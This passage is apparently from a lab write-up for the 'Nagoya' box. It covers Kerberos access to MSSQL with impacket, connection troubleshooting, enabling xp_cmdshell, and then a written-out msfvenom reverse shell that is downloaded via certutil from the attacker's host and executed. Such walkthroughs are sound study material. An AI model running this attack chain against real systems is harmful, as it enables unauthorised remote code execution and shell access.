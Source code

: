 
After that, we can use impacket again to access the mssql instance, but this time we need to use the ticket rather than the username:password combination. Here's the command: `impacket-mssqlclient -k nagoya.nagoya-industries.com`. 

And I can't get it working. Initally I got this error: 
```
Traceback (most recent call last):
  File "/usr/share/doc/python3-impacket/examples/mssqlclient.py", line 94, in <module>
    ms_sql.connect()
  File "/usr/lib/python3/dist-packages/impacket/tds.py", line 534, in connect
    af, socktype, proto, canonname, sa = socket.getaddrinfo(self.server, self.port, 0, socket.SOCK_STREAM)[0]
                                         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/socket.py", line 962, in getaddrinfo
    for res in _socket.getaddrinfo(host, port, family, type, proto, flags):
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
socket.gaierror: [Errno -2] Name or service not known
```

But I tried changing a few things, including crucially installing `krb5-user` which **does not come with kali by default**. I just want to point that out because this isn't made clear by the error. You can install with `sudo apt install krb5-user`. But after I do that, I actually get a new error: `TimeoutError: [Errno 110] Connection timed out`. 

After looking around for a while, this is happening because of the port forward. Basically our impacket is looking for the server on 240.0.0.1 rather than the target IP. We can fix this by adding `240.0.0.1      nagoya-industries.com nagoya.nagoya-industries.com` to our `/etc/hosts` file. Or to clarify - change the target IP to say `240.0.0.1` - it understandably won't work if there are two IPs both listing the same information. 

Then we can go back to running `impacket-mssqlclient -k nagoya.nagoya-industries.com`, and we go back into MSSQL. The point here is to execute xp_cmdshell so we can perform code execution from the db. We need to run these commands in order, running  `whoami` at the end to test:
1. `EXECUTE sp_configure 'show advanced options', 1;`
2. `RECONFIGURE;`
3. `EXECUTE sp_configure 'xp_cmdshell', 1;`
4. `RECONFIGURE;`
5. `EXECUTE xp_cmdshell 'whoami';`

![Nagoya8.png](/assets/images/Nagoya/Nagoya8.png){: .center-aligned width="600px"}

And we have code execution. Now we can get another shell with the `svc_mssql` user. We generate a reverse shell with msfvenom, download it from with xp_cmdshell, and execute it with these commands: 
1. From kali: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=139 -f exe -o reverse139.exe`
2. From MSSQL: `EXECUTE xp_cmdshell 'certutil.exe -urlcache -split -f http://192.168.45.183/reverse139.exe C:\Windows\temp\reverse139.exe'`
3. From MSSQL: `EXECUTE xp_cmdshell 'C:\Windows\temp\reverse139.exe'`
